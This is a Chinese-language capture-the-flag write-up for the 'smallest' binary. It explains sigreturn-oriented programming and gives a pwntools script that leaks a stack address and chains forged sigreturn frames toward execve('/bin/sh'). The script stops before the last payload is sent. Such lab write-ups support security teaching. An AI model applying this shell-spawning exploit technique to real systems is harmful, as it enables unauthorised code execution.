 由于程序中并没有 sigreturn 调用，所以我们得自己构造，正好这里有 read 函数调用，所以我们可以通过 read 函数读取的字节数来设置 rax 的值。重要思路如下

- 通过控制 read 读取的字符数来设置 RAX 寄存器的值，从而执行 sigreturn
- 通过 syscall 执行 execve("/bin/sh",0,0) 来获取 shell。

| 系统调用  | 调用号 | 函数原型                                                     |
| --------- | ------ | ------------------------------------------------------------ |
| read      | 0      | read(int fd, void *buf, size_t count)                        |
| write     | 1      | write(int fd, const void *buf, size_t count)                 |
| sigreturn | 15     | int sigreturn(...)                                           |
| execve    | 59     | execve(const char *filename, char *const argv[],char *const envp[]) |

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)#首先,发送start_addr的地址,因为是写在栈顶的,所以就是read的返回地址
#会返回到start_addr

sh.send('\xb3')#返回后再次调用read函数的时候输入一个字节,read函数会把读入的字节数放到rax
#这样就达到了rax置为1的目的，同时会把rsp的后一位写为\xB3,这样返回地址就不是start_addr了
#而是4000B3,这就避免了rax被xor置零
stack_addr = u64(sh.recv()[8:16])
#此时,回去syscall调用write函数里，输出的就是栈上的0x400长度的内容
#别忘了当是输入的是3个start_addr,所以前八个字节是start_addr，后面的才是我们要用的
log.success('leak stack addr :' + hex(stack_addr))

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
#相当于read(0,stack_addr,0x400),同时返回地址是start_addr
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
```